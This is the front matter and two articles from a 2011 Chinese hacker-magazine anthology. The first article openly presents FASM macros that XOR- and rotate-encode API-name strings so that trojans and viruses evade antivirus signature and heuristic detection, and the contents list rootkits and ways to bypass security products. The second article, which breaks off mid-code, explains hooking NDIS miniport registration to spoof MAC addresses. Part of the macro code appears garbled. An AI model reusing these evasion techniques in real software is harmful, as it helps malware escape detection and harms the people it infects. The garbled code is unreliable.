# 黑客防线2011精华本（上）

---

透视黑客技术发展焦点，把握黑客攻防技术跳动脉搏，全面收录流行黑客技术

# 黑客防线

《黑客防线》编辑部 编

## 2011精华奉献本（上册）

- 黑客编程实战大演练
- 黑器免杀与入侵进阶
- 加密与破解经典实例
- 网络安全与加固精讲




2CD-ROM

人民邮电出版社  
POSTS & TELECOM PRESS

## 2011精华奉献本（上册）

《黑客防线》编辑部 编

人民邮电出版社  
北京

### 图书在版编目（CIP）数据

黑客防线2011精华奉献本 / 《黑客防线》编辑部编  
— 北京：人民邮电出版社，2011.3  
ISBN 978-7-115-24795-7

I. ①黑…  II. ①黑…  III. ①计算机网络—安全技术  
IV. ①TP393.08

中国版本图书馆CIP数据核字（2011）第018576号

### 内容提要

《黑客防线》是国内最早创刊的网络安全技术媒体之一。本书收录了《黑客防线》总第109期至第120期的精华文章。《黑客防线》一直秉承“在攻与防的对立统一中寻求突破”的核心理念，关注网络安全技术的相关发展，并一直跟踪国内网络安全技术的发展，经过2001年创刊至今，已经成为国内网络安全技术的顶尖媒体。本书选取了编程解析、工具与免杀、网络安全顾问、密界寻踪、首发漏洞、特别专题、漏洞攻防、脚本攻防、溢出研究以及渗透与提权等方面的精华文章，并配有两张CD光盘，其中包含安全技术工具、代码和录像，为读者阅读、理解提供了非常便捷的途径。

本书分为上、下两册，适合高校在校生、网络管理员、网络安全公司从业人员、黑客技术爱好者阅读。

## 黑客防线2011精华奉献本（上下册）

- 编：《黑客防线》编辑部
- 责任编辑：张涛
- 人民邮电出版社出版发行，北京市崇文区夕照寺街14号  
  邮编 100061  电子邮件 315@ptpress.com.cn  
  网址 http://www.ptpress.com.cn  
  三河市海波印务有限公司印刷
- 开本：787×1092 1/16  
  印张：38.25  
  字数：1105千字  
  印数：1-8000册

ISBN 978-7-115-24795-7

定价：49.80元（附2张光盘）

读者服务热线：（010）67132692  印装质量热线：（010）67129223  
反盗版热线：（010）67171154  
广告经营许可证：京崇工商广字第0021号

##### 前言

2010年匆匆过去了。对于网络安全的相关技术而言，这一年其实很不平凡。在这一年里，纷乱的网络环境得到治理。在技术层面上，抑制了浮躁，同时也引发了深入研究底层核心技术的思考。这一年，恰逢《黑客防线》创刊十周年。十年磨一剑，作为一本技术月刊，基本上守住了纯技术这样一块净土，坚持了核心技术成就未来的理念，同时在方法上，一直倡导在攻与防的对立统一中寻求突破的方法论，因而过去的一年也可以说是本刊丰收的一年。

这本精华奉献本，就是2010年全年技术月刊精华文章的集合。

需要说明的是：由于多种原因，技术月刊从去年第7期开始停止了纸张版本的出版，只有网站提供的电子版半月刊，所以这本精华本就更显得弥足珍贵。特别是对于没有按期订阅电子版月刊的读者，更需要购买的就是2011精华本了。

如果需要及时跟踪和捕捉新的技术，还是希望读者随时到黑客防线网站订阅电子版半月刊。

本书附带的光盘，是为了方便读者进行源程序测试。精华本中的每篇文章基本上都提供了源程序，如果光盘中找不到某一篇文章涉及的源程序，那就是当时作者投稿时未提供，读者只要研究领会文章所述的技术要义，然后自己完成程序并不是很难。

在这里，要感谢十年来坚持阅读《黑客防线》并且一直践行技术创新和突破的读者朋友们，更要感谢作者朋友们一直进行着艰苦卓绝的技术研究和探索，不断将新技术突破，并整理成文章与大家分享。

在此，吁请具备一定技术能力的读者，积极参与到作者队伍中来，我们的作者群其实就是一支虚拟的技术团队——黑客防线技术团队，这是一支网络信息安全方面的一支精英团队。这个团队希望不断有新生力量参与进来。

让我们从现在做起，从我做起，一起关注网络安全技术的快速发展势头，抓住网络安全技术的新亮点，一起开创中国网络安全技术的新篇章！

郑重声明：本书所讲述的内容仅供学习参考，切勿用于非法用途，由此引起的后果自己负责，出版社不负任何责任。通过阅读本书，希望读者能树立良好的网络安全意识，提高网络安全防御水平。同时提醒读者，应在受控的环境（比如单独用来作为测试的计算机）里分析、使用书中的代码，切勿在企业的业务或生产网络中使用这些程序，以免造成不必要的损失。

《黑客防线》编辑部  
2011年3月

## 《黑客防线》2011精华奉献本目录（上册）

## 编程驱动技术

- AV对抗技术之数据编码 …… 1
- Hook NDIS实现MAC过滤 …… 4
- Hook ObCreateObject实时监控进程创建 …… 8
- Linux下利用调试寄存器Hook系统调用 …… 15
- Ring0级Rootkit进程隐藏与检测技术 …… 19
- Ring3下通过查询GDI句柄表来检测进程 …… 26
- VB验证码识别方法之数据分类和匹配 …… 30
- Windows内核bugcheck和shutdown回调的检测 …… 34
- WS方法结束线程 …… 38
- 保护文件不被360文件粉碎机删除 …… 40
- 编写文件粉碎机 …… 43
- 防止直接切换CR3读写进程内存 …… 50
- 构造自己的SSDT绕过主动防御 …… 55
- 绕过360驱动防火墙加载驱动研究 …… 58
- 后门程序的“安全”之路 …… 61
- 基于Intel VT-x检测隐藏进程 …… 65
- 基于分层的键盘监听驱动程序的编写 …… 67
- 模拟实现NT系统通用PspTerminateProcess …… 81
- 江民2010 KiFastCallEntry Hook保护原理分析 …… 83
- 禁用Copy-On-Write机制实现全局Hook …… 86
- 决战反外挂系统之秘密通信原理 …… 89
- 利用Delphi玩转ShellCode …… 97
- 利用Fltmgr加载驱动绕过瑞星剖析 …… 101
- 利用GINA实现U盘开机锁 …… 103
- 内核编写CMOS维护工具 …… 105
- 浅谈枚举DPC定时器的思路 …… 109
- 图片验证码的随机实现详解 …… 111
- 实现在Windows Mobile手机中彩信的后台收发 …… 114
- 无模块DLL的进程注入剖析 …… 121
- 冰刃下实现无驱动隐藏自身 …… 123
- 让句柄可写——修改正在被使用文件的方法探索 …… 126
- 在C++中嵌入汇编实现DLL注入剖析 …… 129
- 支付宝转账安全应用全接触 …… 133
- 自己开发内核漏洞挖掘工具IoControlFuzzer …… 138
- 特殊方法实现读写进程内存 …… 143

### 工具与技术

- VBS实现通用定位autorun.inf中病毒体的路径 …… 147
- U盘打造开机锁 …… 151
- 基于硬件虚拟化的HIPS …… 153
- 利用EFS提高文件系统的安全性 …… 155
- 文件夹加密超级大师的脆弱加密分析 …… 158
- 探寻“秒杀”技术背后的猫腻 …… 160
- PE文件图标修改原理详解 …… 163
- Python编写Post注入脚本剖析 …… 166
- Windows启动驱动加载顺序修改 …… 171
- 编写反启发式免杀下载者剖析 …… 174
- 动态污点分析系统TEMU …… 175
- 反高启发与反主动防御之路——基于源码的免杀技术（上） …… 179
- 反高启发与反主动防御之路——基于源码的免杀技术（中） …… 182
- 反高启发与反主动防御之路——基于源码的免杀技术（下） …… 185
- 利用强迫超时规避JavaScript Exploit特征码检测 …… 188
- 卡巴斯基虚拟机启发式扫描技术突破剖析 …… 192

## 网络安全顾问

- Linux下LDAP统一认证的实现 …… 197
- 巧用Linux实现局域网安全访问 …… 203
- 数字证书原理及应用 …… 206
- 用VXE保护Linux系统安全 …… 209
- 利用日志进行MySQL数据库实时恢复 …… 212
- Paros 3.2.13在Windows平台下的使用指南 …… 214
- 安全SSL访问的实现方法详解 …… 219
- 二层安全的解析与防护 …… 222
- 基于文件系统的移动存储设备安全管理 …… 228
- 肉鸡还是陷阱：巧借VMWare逆向分析入侵过程 …… 231
- 修改数据库用户权限防范SQL注入 …… 235
- 无线网络设备指纹识别 …… 238

前置知识：汇编  
关键词：编程，数据编码，反查杀

## AV对抗技术之数据编码

文/图 xfish



时间匆匆流逝，在安全体系越来越完善的今天，AV（Anti Virus，反病毒）对抗技术也越来越显得十分重要。因为没有它，木马、病毒、蠕虫等将一无所用。我举个例子，比如自己编写的木马很可能在第一次完成编译后，就面临被大部分具有虚拟机启发或DNA查杀的AV所杀。其次，最重要的是还要考虑到木马、病毒等后期如果一旦被AV所杀，如何能快速地针对大面积的AV进行处理，这是我们所要思索的问题，否则很难持续在这个方面走下去。

本文讲述的是AV对抗技术之数据编码，在后续的文章中还会和大家探讨AV对抗技术的其余方面。

初看到数据编码这个词，大家可能会有很多的联想。其实这里的数据编码指的是将我们的数据信息进行重新编码，让其按照自己的格式来编译。如果以前写过木马、病毒、exploit等部分敏感数据信息，大家肯定都进行加密处理。但是我如果让你把所有的敏感数据信息（也包括局部数据）都进行加密处理，且解密头或密钥是随机的，那么我想，你肯定会觉得这是一个非常庞大的工程。目前的大部分AV在启发技术中都包含了基因码检测技术，也就是俗称的DNA检测技术。基因码检测技术最具代表性的产品就是我们非常熟悉的“大蜘蛛”“小红伞”等。

其中我在实践中对“大蜘蛛”一直是无视的，“小红伞”则相对来说要麻烦些。基因码检测技术有时候十分变态，比如它会分析你的程序文件结构，通过文件结构来分析引入函数，其次则是对程序中的数据信息与库中的特征进行匹配，有时候会根据重定位来分析引用数据信息所在的代码部分是否存在一些解密代码等。

本文涉及的数据编码技术就是让我们的木马、病毒等能够高效、方便地对抗AV的数据信息匹配技术。

编写木马时，如果大部分函数中的参数都是AV敏感的数据信息，我们该如何做？举个例子，要动态获取CreateRemoteThread函数的地址，肯定不能把这个函数名称真实暴露在程序中，通常一般的病毒做法是通过hash算法计算出这些函数名称的hash值，根据hash值，通过自己编写的GetProcAddress函数来获取地址。这样做的方法在木马编写中并不实用，因为如果一旦数据过多且是其他各种各样函数的参数，处理起来会非常困难，而数据编码技术就是要解决这个问题。

下面我们就用字符串数据来做例子进行讲解，也就是通过修改原有的字符串压入参数的结构，使数据并不是以字符串结构来存放。通常大部分病毒所采用的压入字符串形式结构有如下两种：

```asm
// 第一种方法
call s
db xfish,0
s:

// 第二种方法
push 'h'
push 'xfish'
mov edx,esp
```

不过以上都不是很好的方法，因为数据信息还是会暴露。如果在编译期间我们的字符串不是以明文存放，那该多好，并且每一步还包含一个解密的代码。接着我们再看一些例子，如图1所示。



图1

这个例子中采用的是我们上面所说的第一种字符串结构存储的方式，可以看到这些字符串信息都会暴露在我们的程序中。我们看看修改后的代码，如图2所示。



图2

这是第一种结构，我们来对比一下第二种结构修改前后的区别。原始结构如图3所示，修改后的结果如图4所示。



图3



图4

第一种修改方式中，是取得字符串中第一个字符的ASCII码来作为密钥，所以随着字符串的不同，我们的密钥也是不同的。第二种修改方式是通过循环取得字符串中的4字节字符，“rol edx, 6”进行加密后压入堆栈，然后根据字符串的长度循环插入nop指令，使结构都不存在相同的特征。

看了以上的对比，我们可以很清楚地看到，先前的敏感数据信息都被我们的格式随机代码给打乱了，AV很难匹配出我们的数据信息来。那么我们如何高效地达到以上目的呢？由于我平常编写木马都是使用FASM编写，现在即使是写一些大型程序，我还是以FASM和高级语言相结合，让自己的ASM loader加载高级语言编写的模块，这样对抗AV的效果每次只需要修改loader就可以了。下面我们就看看上面两种修改方式的汇编源代码。

```asm
//第一种方法
include 'AntiData.inc'
entry $
push ebp
mov ebp, esp
x_call 'kernel32'
pop edx
invoke LoadLibrary, edx
x_call 'CreateRemoteThread'
pop edx
invoke GetProcAddress, eax, edx
leave
ret

//第二种方法
include 'AntiData.inc'
entry $
push ebp
mov ebp, esp
x_push 'kernel32'
mov edx, esp
invoke LoadLibrary, edx
x_end
x_push 'CreateRemoteThread'
mov edx, esp
invoke GetProcAddress, eax, edx
x_end
leave
ret
```

善于观察的可能会发现，源代码中多了x_call、x_push、x_end，没错，这几个指令才是重点，因为所有的工作都是它们完成的。这些指令其实是我写的宏，宏在ASM编写中十分重要，充分利用它会发觉有意想不到的效果。好了，既然主角已经出现，就让我们看看它的真面目吧！

```asm
pop edx
ror edx, 6
push edx
times % nop
x = x - 4
end repeat
...
macro x_end
{
  add esp, size
}
```

```asm
macro alignsize value { rb (value-1)-($+value-1) mod value }
macro x_call str
{
  local size, x, s, l, v
  if str eqtype ''
    call s
    x db str,0
    size = ($-x)
    if ~size eq
      load x BYTE from (x)
      repeat size
        load v BYTE from x:%-1
        store BYTE v xor x at x:%-1
      end repeat
s:
      push ecx
      push edx
      mov ecx,size
      mov edx,x
l:
      xor BYTE [edx+ecx-1],x
      loop l
      pop edx
      pop ecx
    end if
  else
    push str
  end if
}

macro x_push str
{
  local x,v
  virtual at 0
    db str,0
    alignsize 4
    size = $
  end virtual
  x = size
  repeat size/4
    virtual at 0
      db str:0
      alignsize 4
      load v DWORD from (x-4)
      (v shl 6) and 0FFFFFFFFh or (v shr (32-6))
      v = v rol 6
    end virtual
    push v
  end repeat
}
```

alignsize宏没什么可说的，相信有一定编程基础的都应该了解。我们重点看x_call、x_push宏。

x_call用于判断参数类型是否为字符串类型，如果是则先将字符串进行定义，然后压入字符串地址。“if str eqtype…size=($-x)”这段代码判断字符串大小是否为0，如果不为0则取字符串第一个字符作为密钥保存到x常量中。然后根据字符串大小，循环取字符串中的每个字符与x常量异或后再重写回去。“if ~size eq…end repeat”这段代码，由于刚刚已经把我们之前定义的字符串通过store加密重写回去了，所以下面我们肯定要加上解密指令了，即“push ecx”到“pop ecx”这段代码。

x_push是定义一段虚拟内存区域（4字节对齐）用来存放我们的字符串，然后取其字符串大小。“virtual at 0…end virtual”这段代码，通过字符串大小，循环倒序取字符串中的4字节字符，然后通过rol 6加密，将其传送到edx寄存器，通过ror 6进行解密后压入堆栈，最后是依据循环次数插入等同数量的nop指令。

由于我们的x_push宏是通过堆栈来存储数据的，所以要在函数调用完成后恢复堆栈，即通过“add esp,size”来恢复堆栈平衡，而这就是x_end要实现的功能。

至此，本文就告一段落了，主要给大家带来的是通过修改自身的字符串参数结构来对抗AV数据查杀技术。其实我觉得更重要的是带来一种思路，举一反三，就会在AV对抗技术领域中飞得更高！

> （编辑提醒：本文涉及的代码已收入随书光盘，请到光盘中查找）

## 前置知识：VC  
## 关键词：编程、MAC地址、NDIS

##### Hook NDIS

##### 实现 MAC 过滤


文 / 陈布雨

本文的主要目的是为了实现突破 MAC 绑定来锁定机器码的一个简单欺骗，并针对网卡驱动未提供自定义 MAC 接口（比如 Intel 的很多无线网卡驱动都没有这个接口），期望能够修改底层网卡 MAC。经过一段时间的研究，发现前者是可行的，而后者由于涉及厂家对 MAC 地址的处理，一般来说是无法直接实现的。在下面的演示中将逐步讲解这个问题。

首先我们来看如何得到网卡的 MAC 地址：

> 我们找到 DDK，搜索一下网卡接口：  
> Using the Network Driver Design Guide (NDIS 5.0) Windows-based operating systems support several types of kernel-mode network drivers...  
> **Miniport drivers** ...  
> **Intermediate drivers** ...  
> **Protocol drivers** ...  
> **Filter-hook driver** ...

```c
static void GetMACaddress(void)
{
    IP_ADAPTER_INFO AdapterInfo[16];
    DWORD dwBufLen = sizeof(AdapterInfo);
    DWORD dwStatus = GetAdaptersInfo(AdapterInfo, &dwBufLen);
    assert(dwStatus == ERROR_SUCCESS);
    PIP_ADAPTER_INFO pAdapterInfo = AdapterInfo;
    do {
        PrintMACaddress(pAdapterInfo->Address);
        pAdapterInfo = pAdapterInfo->Next;
    } while(pAdapterInfo);
}
```

看到这里有读者可能要问了，挂钩这个函数不就可以了吗？但我们碰到的案例却恰好是从驱动层来获取 MAC 地址（这个程序本身就是防火墙程序），用户态挂钩显然不适用。经过简单的搜索，发现防火墙程序要实现包过滤肯定需要得到 MAC 地址，而通过对这个函数的跟踪，确定最终请求会转到 NDIS 相关的驱动中，于是……

> drivers extends the functionality of the IP filter driver, which is supplied with the operating system.

从以上文档可以发现，位于底层的是 Miniport Drivers，因此所有对于网卡的读写信息都是从这里返回的。幸运的是 DDK 的随机文档中有一份网卡的 Sample 驱动代码，我们何不拿出来读读呢？找到名为 e100bex 的项目，简单搜索后找到以下代码：

```c
case OID_802_3_PERMANENT_ADDRESS:
    pInfo = Adapter->PermanentAddress;
    ulBytesAvailable = *ulInfoLen = ETH_LENGTH_OF_ADDRESS;
    break;
case OID_802_3_CURRENT_ADDRESS:
    pInfo = Adapter->CurrentAddress;
    ulBytesAvailable = *ulInfoLen = ETH_LENGTH_OF_ADDRESS;
    break;
```

可以看出这里就是返回信息的地方，向上回溯，找到这段代码来自以下函数：

```c
NDIS_STATUS MPQueryInformation(
    IN NDIS_HANDLE MiniportAdapterContext,
    IN NDIS_OID Oid,
    IN PVOID InformationBuffer,
    IN ULONG InformationBufferLength,
    OUT PULONG BytesWritten,
    OUT PULONG BytesNeeded
)
```

而这个函数恰好在 EntryPoint 的时候调用了。

```c
NdisZeroMemory(&MPChar, sizeof(MPChar));
MPChar.MajorNdisVersion = MP_NDIS_MAJOR_VERSION;
MPChar.MinorNdisVersion = MP_NDIS_MINOR_VERSION;

MPChar.QueryInformationHandler = MPQueryInformation;

DBGPRINT(MP_LOUD, ("Calling NdisMRegisterMiniport\n"));
Status = NdisMRegisterMiniport(
    NdisWrapperHandle,
    &MPChar,
    sizeof(NDIS_MINIPORT_CHARACTERISTICS));
```

由此可以看出，网卡驱动调用 NdisMRegisterMiniport 来注册自己的回调函数事件。因此，我们若需要欺骗上层驱动，只需要挂钩这个函数即可。而接下来我们就要讨论如何实现对这个回调函数挂钩的技巧。先来看看 NdisMRegisterMiniport 函数的原型，代码如下：

```c
NDIS_STATUS
NdisMRegisterMiniport(
    IN NDIS_HANDLE NdisWrapperHandle,
    IN PNDIS_MINIPORT_CHARACTERISTICS MiniportCharacteristics,
    IN UINT CharacteristicsLength
)
```

注意看结构 PNDIS_MINIPORT_CHARACTERISTICS，其代码如下：

```c
typedef struct _NDIS_MINIPORT_CHARACTERISTICS {
    UCHAR MajorNdisVersion;
    UCHAR MinorNdisVersion;
    UINT Reserved;
    W_CHECK_FOR_HANG_HANDLER CheckForHangHandler;
    W_DISABLE_INTERRUPT_HANDLER DisableInterruptHandler;
    W_ENABLE_INTERRUPT_HANDLER EnableInterruptHandler;
    W_HALT_HANDLER HaltHandler;
    W_HANDLE_INTERRUPT_HANDLER HandleInterruptHandler;
    W_INITIALIZE_HANDLER InitializeHandler;
    W_ISR_HANDLER ISRHandler;
    W_QUERY_INFORMATION_HANDLER QueryInformationHandler;
    W_RECONFIGURE_HANDLER ReconfigureHandler;
    W_RESET_HANDLER ResetHandler;
    W_SEND_HANDLER SendHandler;
    W_SET_INFORMATION_HANDLER SetInformationHandler;
    W_TRANSFER_DATA_HANDLER TransferDataHandler;
} NDIS_MINIPORT_CHARACTERISTICS;
```

这个结构存放着回调函数，接下来我们就要开始玩弄我们的 NDIS 了。这里有几个办法，比较正式的办法是写一个 Intermediate Layer 驱动架在网卡与上层防火墙之类的驱动之间，如图 1 所示。



但这显然是没有必要的，写一个这样的驱动太耗费时间，因此我们自然而然地想到了 Hook。不过用传统的方法挂钩 NdisMRegisterMiniport 后调用原始函数的方法存在问题，因为当我们修改传入的 MiniportCharacteristics 结构数据为自己的函数的时候，会回调下面的函数：

```c
NDIS_STATUS
MiniportQueryInformation(
    IN NDIS_HANDLE MiniportAdapterContext,
    IN NDIS_OID Oid,
    IN PVOID InformationBuffer,
    IN ULONG InformationBufferLength,
    OUT PULONG BytesWritten,
    OUT PULONG BytesNeeded
);
```

我们只能得到 MiniportAdapterContext，所以还需要挂钩注册 Context 函数，通过一个 Map 数据结构来存放用于记录原始函数指针的数据结构，完成 MiniportAdapterContext 到我们存放原始信息结构的转换：

```c
NDIS_STATUS
MiniportInitialize(
    OUT PNDIS_STATUS OpenErrorStatus,
    OUT PUINT SelectedMediumIndex,
    IN PNDIS_MEDIUM MediumArray,
